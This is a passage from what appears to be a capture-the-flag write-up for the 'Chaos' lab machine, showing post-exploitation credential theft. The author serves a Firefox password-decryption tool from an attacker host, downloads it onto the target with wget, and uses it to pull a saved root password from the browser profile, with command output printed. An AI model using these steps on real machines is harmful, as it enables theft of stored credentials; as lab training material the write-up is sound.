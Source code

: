 

Inside of it, there's a single default profile, `bzo7sjt1.default`:



    ayush@chaos:~/.mozilla$ find . -maxdepth 2
    .
    ./firefox
    ./firefox/bzo7sjt1.default
    ./firefox/Crash Reports
    ./firefox/profiles.ini
    ./extensions



### Data Extraction from Firefox Profile

I'll grab [this Firefox extraction
tool](https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py),
and upload it to target with `wget`:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.120 - - [08/May/2019 15:35:53] "GET /firefox_decrypt.py HTTP/1.1" 200 -





    ayush@chaos:/dev/shm$ wget 10.10.14.14/firefox_decrypt.py
    --2019-05-08 19:25:33--  http://10.10.14.14/firefox_decrypt.py
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 34618 (34K) [text/plain]
    Saving to: ‘firefox_decrypt.py’

    firefox_decrypt.py                                     100%[============================================================================================================================>]  33.81K  --.-KB/s    in 0.1s    

    2019-05-08 19:25:34 (326 KB/s) - ‘firefox_decrypt.py’ saved [34618/34618]



When I run it, it immediately finds the profile, and prompts for a
master password. Giving it the only password I know for ayush,
"jiujitsu", works:



    ayush@chaos:/dev/shm$ python3 ff.py 

    Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: 

    Website:   https://chaos.htb:10000
    Username: 'root'
    Password: 'Thiv8wrej~'



I have the password that claims to be for the web service running on
10000. It also has username root.

